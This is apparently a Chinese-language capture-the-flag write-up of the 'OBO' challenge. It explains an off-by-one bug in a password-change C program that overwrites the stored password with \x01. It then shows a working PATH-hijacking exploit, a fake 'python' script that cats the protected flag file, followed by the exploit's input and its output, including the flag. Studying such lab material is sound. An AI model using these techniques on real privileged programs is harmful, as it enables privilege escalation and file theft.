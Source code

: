 # OBO
拿到一個更改密碼的程式碼，一眼能看出許多地方有邊界錯誤：
    - 在generate_hex_table 這個程式裡：
    ```
    hex_table[256];
    ...
    for (i = 0; i <= 256; ++i) hex_table[i] = -1;
    for (i = 0; i <= 10; ++i) hex_table['0' + i] = i;
    for (i = 0; i <= 6; ++i) hex_table['a' + i] = 10 + i;
    for (i = 0; i <= 6; ++i) hex_table['A' + i] = 10 + i;
    // I don't know why, but I was getting errors, and this fixes it.
    hex_table[0] = 0;
    ```
    - 提示說：如果能找出為何會產生error，和為何加上這行
    ```hex_table[0] = 0;```
    可以讓程式正常運行的原因，就可以破解這關了。
    - 在檢查新輸入的密碼是否夠複雜的程式碼：
    ```
    for (i = 0; i <= strlen(new_password); ++i) {
    	int index = hex_table[(unsigned char) new_password[i]];
	if (index == -1) {
	   printf("Invalid character: %c\n", new_password[i]);
	   exit(1);
	}
    digits[index] = 1;
    }
    ```
    可以看到因為邊界錯誤，把不該檢查的結束字元'\0'也做複雜度檢查，這就是為什麼上面要加入
    ```hex_table[0] = 0;```
    才會正常運行的原因。
    - 同理，也可以看到digits的邊界也超出了一格，這超出的一格會以**int長度為單位**複寫stack上緊鄰的東西，也就是password！
    - 注意到sizeof(int) = 4 byte, 而sizeof(char) = 1 byte，所以password的前四格會被覆寫成[1][0][0][0]，也就是說password變成了：*\x01*！
那麼，接下來只剩下更改password的部份了。但很不幸的，這部份還沒有implement，我們需要找其他方法。
    - 仔細看一下呼叫python的code：
    ```snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);
    ```
    是用相對路徑開啟，所以說不定我們能複製創一個set_password.py在另一個目錄下，印出flag：
    ```
    #!/bin/sh
    cat /home/obo/flag.txt
    ```
    我放到自己的目錄底下/home_users/pico62895，但很可惜，obo在這裡不能開啟password所以失敗，早該預料到的。
    - 那麼剩下調整環境變數，創一個叫作python的script檔，在export到PATH中：
    ```
    pico62895@shell:~$ vim python
    #!/bin/sh
    cat /home/obo/flag.txt
    pico62895@shell:~$ chmod +x python 
    pico62895@shell:~$ export PATH=/home_users/pico62895:$PATH
    #!/bin/sh
    cat /home/obo/flag.txt
    ```
    - 然後再執行程式：
    ```
    pico62895@shell:~$ (echo -e "123456789abcdefg\n\x01") | /home/obo/obo
    New password: Confirm old password: watch_your_bounds
    Password changed!
    ```
    - 成功取得 flag = watch_your_bounds。